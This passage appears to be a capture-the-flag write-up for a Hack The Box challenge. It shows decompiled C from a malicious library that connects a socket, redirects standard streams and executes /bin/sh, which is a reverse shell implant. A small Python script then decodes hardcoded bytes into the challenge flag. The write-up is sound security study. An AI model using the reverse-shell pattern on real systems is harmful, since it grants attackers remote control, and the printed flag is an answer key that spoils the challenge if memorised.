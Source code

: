 ```c
00001241          uint16_t var_36_1 = htons(x: rax_3)
00001254          int32_t rax_8 = socket(domain: AF_INET, type: SOCK_STREAM, protocol: 0)
0000126d          connect(fd: rax_8, addr: &var_38, len: 0x10)
00001283          write(fd: rax_8, buf: &var_68, nbytes: 0x29)
00001292          dup2(oldfd: rax_8, newfd: 0)
000012a1          dup2(oldfd: rax_8, newfd: 1)
000012b0          dup2(oldfd: rax_8, newfd: 2)
000012c6          execve(filename: "/bin/sh", argv: nullptr, envp: nullptr)
000012d8      return 0
```

This is pretty clearly an implant that grants a shell, but the more important part is the integer variables that are defined. Lets copy those and see if they decode to anything meaningful. I wrote a really bad lil python program to decode the bytes. 

```python
# Array of bytes from librs.so
flag = [0x33725f317b425448, 0x6b316c5f796c6c34, 0x706d343374735f33, 0x306230725f6b6e75, 0xd0a7d2121217374]

# Convert to bytes in the correct endienness
decoded = [(i).to_bytes(8, byteorder='little').decode() for i in flag]

# Win!
print("".join(decoded))
```

Running this we get our flag and we're done! 

```bash
[~/peel-back-the-layers]$ python3 solve.py                                            
HTB{1_r34lly_l1k3_st34mpunk_r0b0ts!!!}
``` 


